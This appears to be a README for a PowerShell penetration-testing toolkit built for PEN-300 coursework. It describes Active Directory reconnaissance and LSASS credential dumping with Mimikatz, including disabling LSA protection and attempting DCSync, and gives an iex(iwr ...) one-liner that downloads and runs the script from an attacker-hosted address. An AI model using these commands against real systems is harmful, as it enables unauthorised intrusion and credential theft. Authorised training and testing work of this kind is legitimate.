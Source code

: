 # osep_pwntools
Bespoke tooling for PEN-300 coursework

## pwn.ps1
This PowerShell utility script enumerates common host-based restrictions, such as whether LSA protection is disabled or AppLocker restrictions are in place.
If the system is domain-joined, the `adrecon` function is a wrapper utility for quick PowerView-based insights that can provide context for lateral movement opportunities.
The `getcreds` function is a wrapper utility for `Out-Minidump.ps1` and `Invoke-Mimikatz.ps1`, and can dump process memory from LSASS and parse out local credentials. If the `-lsa` flag is specified, it will load `mimidrv.sys` in order to remove this protection first. If the user has DCSync privileges it will also attempt to obtain them, as well as any trust link hashes.

This tool has been designed to be as fault-tolerant as possible, providing conditional checks for whether both the system and the user are domain-joined or not. To overcome the Kerberos "double-hop" problem with LDAP requests over WinRM, the script will attempt to create a PSCredential object for non-SYSTEM users in order to supply it with the embedded PowerView commands. I am not an expert programmer and provide no warranties that this script will work for you out of the box.

**Note:** The `-ipaddress` specifies your IP address where the dependency scripts are being hosted (assumed on TCP/80). Use the `-port` option to specify a different port.
#### Examples

```powershell
iex(iwr 192.168.22.121/pwn.ps1 -usebasicparsing)
adrecon -ipaddress LHOST_IP

getcreds -ipaddress LHOST_IP
getcreds -ipaddress LHOST_IP -lsa
```
